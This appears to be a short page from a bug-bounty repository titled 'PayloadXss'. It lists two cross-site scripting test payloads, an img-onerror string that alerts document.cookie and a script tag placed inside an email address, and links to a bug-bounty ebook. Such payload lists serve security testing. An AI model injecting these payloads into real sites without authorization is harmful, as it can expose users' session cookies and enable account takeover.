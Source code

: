 # PayloadXss

"><img src=x onerror=alert(document.cookie);>

"<script>alert(1)</script>"@example.com


https://github.com/B1naryo/Bug-Bounty-Ebook/blob/main/BugBount/
